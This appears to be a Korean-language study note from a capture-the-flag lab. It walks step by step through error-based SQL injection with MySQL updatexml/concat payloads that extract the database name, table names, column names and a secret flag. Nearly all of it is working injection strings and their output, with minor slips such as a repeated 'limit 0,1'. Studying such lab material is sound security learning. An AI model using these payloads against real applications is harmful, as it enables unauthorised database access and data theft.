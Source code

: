 # Error Based SQL Injection    
SQL 질의문 결과가 화면에 안나오는 곳   
ex)   
로그인, 아이디 중복체크   

## nor'   
이라고 치니까? sql error 가 떳네? 그러면 땡잡았다. 

## 1. 추측
추측을 해보자
db 를 조회하는 거니까
select ??? from ??? where id=''
like 나 % 를 쓰진 않을 거임. 아이디는 정확하고 유일해야 하니까.

## 2. db 에러인지 확인.
에러문 읽어보자

## 3. error based SQL Injection Function
논리 에러(문법은 맞아야 함.)   
먼저 SQL Injection Function 을 사용하면 됨.   
-updatexml   
1' and updatexml(null,concat(0x3a,'test'),null) and '1'='1   
기본 구조는   
and ( 내가 넣고 싶은 구문) and '1'='1   

concat = 합치는 함수   
0x3a = :   
->    
:test   
:test 라는 문자열을 뜻함.   
저 함수의 의미는    
:test 라는 파일을 찾으라는 것임.   
:test 라는 파일이 없는데? 라면서 논리 오류 배출.   

1' and updatexml(null,concat(0x3a,'test'),null) and '1'='1   
결과가 논리 에러를 나오면   
'test' 부분에 select 문을 치면 가능함   
1' and updatexml(null,concat(0x3a,(select 'test')),null) and '1'='1   
select 들어갔는데도 그대로 나오네? ㅇㅋ 다음   

## 4. DB 이름 확인
db 이름 확인해보자.   
그럼 select 'test' 부분을 빼고   
select database() 넣기만 하면 되겠네?   

1' and updatexml(null,concat(0x3a,(select database())),null)and '1'='1   
segfault_sql 라는 db 이름 확인.   

## 5. table 이름 확인
table 이름도 확인하자   
select table_name from information_schema.tables where table_schema='segfault_sql'   
이게 테이블 이름 확인할 수 있는 쿼리문이니까   
아까 select database() 대신해서 넣자   
1' and updatexml(null,concat(0x3a,(select table_name from information_schema.tables where table_schema='segfault_sql')),null) and '1'='1   
넣으니까 컬럼 1개만 출력할 수 있다는 오류가 떳음.   
ㅇㅋ 그럼 하나씩 확인해야지  

## limit
limit 사용.   
맨 뒤에 limit 0,1 을 붙이면 맨 처음 1개를 출력한다는 의미.   

1' and updatexml(null,concat(0x3a,(select table_name from information_schema.tables where table_schema='segfault_sql' limit 0,1)),null) and '1'='1   
game   

1' and updatexml(null,concat(0x3a,(select table_name from information_schema.tables where table_schema='segfault_sql' limit 0,1)),null) and '1'='1   
member

1' and updatexml(null,concat(0x3a,(select table_name from information_schema.tables where table_schema='segfault_sql' limit 2,1)),null) and '1'='1   
secret 

secret 컬럼 수상하다 이거 살펴보자   


## 6. column 이름 확인
똑같이 같은 함수에   
select column_name from information_schema.columns where table_name='secret' limit 0,1   
이거 넣으면 되니까   

1' and updatexml(null,concat(0x3a,()),null) and '1'='1   
select column_name from information_schema.columns where table_name='secret' limit 0,1

1' and updatexml(null,concat(0x3a,(select column_name from information_schema.columns where table_name='secret' limit 0,1)),null) and '1'='1   
idx

1' and updatexml(null,concat(0x3a,(select column_name from information_schema.columns where table_name='secret' limit 1,1)),null) and '1'='1   
secret 

secret 컬럼까지 나왔다.

## 7. 데이터 추출
이제 데이터 확인하자   
1' and updatexml(null,concat(0x3a,(select secret from secret)),null) and '1'='1

select secret from secret 

:segfault{fllllllllag}   
플래그 나왔네

